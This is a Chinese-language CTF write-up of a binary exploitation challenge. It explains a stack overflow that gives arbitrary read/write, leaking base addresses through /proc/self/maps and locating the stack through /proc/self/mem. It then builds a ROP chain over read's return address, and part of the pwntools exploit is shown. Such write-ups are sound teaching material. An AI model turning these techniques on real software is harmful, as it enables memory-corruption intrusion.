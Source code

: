 vul: 存在堆栈溢出, 通过覆盖 v8实现任意地址读写

## 知识点

由于可以读取除了flag之外的文件，就可以读取/proc/self/maps文件,Linux 内核提供了一种通过 /proc 文件系统，在运行时访问内核内部数据结构、改变内核设置的机制。proc文件系统是一个伪文件系统，它只存在内存当中，而不占用外存空间。读取/proc/self/maps可以得到当前进程的内存映射关系，通过读该文件的内容可以得到内存代码段基址。/proc/self/mem是进程的内存内容，通过修改该文件相当于直接修改当前进程的内存。该文件不能直接读取，需要结合maps的映射信息来确定读的偏移值。即无法读取未被映射的区域，只有读取的偏移值是被映射的区域才能正确读取内存内容。

程序最后有一个exit(0)，由此，覆盖fn函数的返回地址来构造ROP不可行，但可以覆盖read函数的返回地址，也就是调用read任意写时，把自己的返回地址给覆盖了,这样ROP写入后就直接开始执行了。为了覆盖read的返回地址，就需要确定栈的地址。

但是，由于程序是clone出来的，第三个参数指定了clone出的进程的栈地址，程序一开始用mmap映射了一段内存，然后取了其中的一个随机的位置传给了clone，由此，并不知道程序的栈地址。但是，可以通过读取/proc/self/mem文件，来搜索标记，已确定程序的栈地址, 注意,堆栈的生长方向是由高地址向低地址生长。

## 思路

1. 如何调试? 使用ida把超时函数的exit给patch掉, 通过gdb attach的方式调试子进程
2. 漏洞 1: 明显的漏洞点就在执行1功能的时候就有字符串溢出, 可以覆盖v8变量通过4功能实现任意地址写入.
3. 漏洞 2: 可以通过输入打开文件为 /proc/self/maps来获取各个基址
4. 绕过PIE，以及利用/proc/self/mem来读取任意地址的内容
5. 通过在/proc/self/mem中搜索'/proc/self/maps'字符串来定位堆栈的地址
6. 计算出read ret地址,构造rop链读取flag

## 利用

###  获取基址

```python
	sla('?', 'y')

	#leaking base addr
	p = '/proc/self/maps'
	fid(p)
	get(1500)

	ru('You get something:\n')
	exe_base = int(r(12), 16)
	ru('[heap]\n')
	stack_start = int(r(12), 16)
	ru('-')
	stack_end =   int(r(12), 16)

	ru('rw-p 00000000 00:00 0 \n')

	libc_base = int(r(12), 16)
	li('exe_base  ' + hex(exe_base))
	li('libc_base ' + hex(libc_base))

	li('stack_start ' + hex(stack_start))
	li('stack_end   ' + hex(stack_end))

	pop_rdi_ret_offset = 0x1823
	pop_rsi_r15_ret_offset = 0x1821
	pop_rdi_ret = exe_base + pop_rdi_ret_offset
	pop_rsi_r15_ret = exe_base + pop_rsi_r15_ret_offset
	open_plt = exe_base + exe.plt['open']
	read_plt = exe_base + exe.plt['read']
	puts_plt = exe_base + exe.plt['puts']
```
